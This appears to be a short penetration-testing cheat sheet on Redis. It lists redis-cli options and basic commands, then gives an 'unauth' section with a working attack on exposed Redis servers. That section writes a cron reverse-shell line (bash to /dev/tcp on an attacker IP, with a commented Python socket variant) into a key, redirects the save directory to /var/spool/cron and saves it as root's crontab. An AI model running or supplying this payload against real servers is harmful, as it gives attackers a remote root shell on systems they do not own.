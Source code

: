 ## Redis-cli

```bash
redis-cli -h host -p port -a passwd
	--raw	raw formatting
	-c		cluster mode
	--help
```

## Redis Basics

```bash
INFO
PING
Auth [passwd]
ECHO message
QUIT
SELECT index

set baconxxx "\nhacked"
	\nhacked
set bacon '\n'
	\\n
get baconxxx
del baconxxx
exists key
randomkey
keys [pattern]
rename key newkey
type key

# key不存在时创建
setnx key value

config get dir
config get dbfilename

slaveof host port
slaveof no one
# https://redis.io/commands/slaveof
migrate
MIGRATE host port key|"" destination-db timeout [COPY] [REPLACE] [AUTH password] [AUTH2 username password] [KEYS key [key ...]]
# https://redis.io/commands/migrate

CLUSTER MEET <ip> <port> <bus_port>
```

## Redis Unauth

```bash
# for BACKUP
CONFIG GET dir
CONFIG GET dbfilename

# cron reverse shell
set baconxxx "\n\n* * * * * bash -i >& /dev/tcp/192.168.77.37/4446 0>&1\n\n"
# "\n* * * * * /usr/bin/python -c 'import socket,subprocess,os,sys;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n"
config set dir /var/spool/cron
config set dbfilename root
save
```